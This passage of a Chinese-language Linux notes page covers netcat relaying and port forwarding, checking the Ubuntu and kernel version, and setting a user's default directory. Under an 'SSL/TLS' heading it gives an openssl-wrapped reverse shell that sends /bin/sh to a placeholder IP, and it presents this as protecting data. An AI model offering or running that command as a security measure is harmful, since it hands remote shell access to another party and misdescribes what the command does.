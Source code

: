    创建代理服务器：
   ```bash
   nc -l -p <port_to_listen> -c "nc <destination_host> <destination_port>"
   ```

   端口转发：
   ```bash
   nc -l -p <local_port> -c "nc <destination_host> <destination_port>"
   ```

6. **使用 SSL/TLS：**
   可以使用 `openssl` 命令来创建安全的加密连接，以保护数据的传输。例如：
   ```bash
   mkfifo /tmp/ncpipe && /bin/sh -i < /tmp/ncpipe 2>&1 | openssl s_client -quiet -connect <your_ip>:<your_port> > /tmp/ncpipe; rm /tmp/ncpipe
   ```

请谨慎使用 Netcat，确保你了解其功能和用途，以避免滥用或造成安全风险。不同的情况可能需要不同的选项和用法，建议在实际使用之前查阅官方文档和相关资源。

## 查看ubuntu版本

您可以使用以下命令来查看 Ubuntu 系统的版本信息：

1. **查看当前 Ubuntu 版本：**
   ```bash
   lsb_release -a
   ```

   或者

   ```bash
   cat /etc/lsb-release
   ```

   这些命令将显示当前安装的 Ubuntu 发行版的详细信息，包括发行版的代号、版本号和描述。

2. **查看内核版本：**
   若要查看当前正在运行的内核版本，可以使用 `uname` 命令：
   ```bash
   uname -r
   ```

   这将显示当前正在运行的 Linux 内核的版本号。

请注意，命令的输出可能包含一些其他信息，比如发行版的名称、内核的版本以及其他详细信息。确保查看相关输出，以获取您所需的确切版本信息。

## 设置用户的默认目录

在Linux中，要设置用户的默认目录，可以使用用户的配置文件（通常是`.bashrc` 或 `.bash_profile`）来更改用户的起始工作目录。这将使用户在登录时进入指定的目录。

以下是设置用户默认目录的步骤：

1. **确认用户存在：**
   首先，请确保用户已经存在于系统中。您可以使用`id`命令来检查用户是否存在：
   ```bash
   id <username>
   ```
   在这里，`<username>`是要检查的用户名。
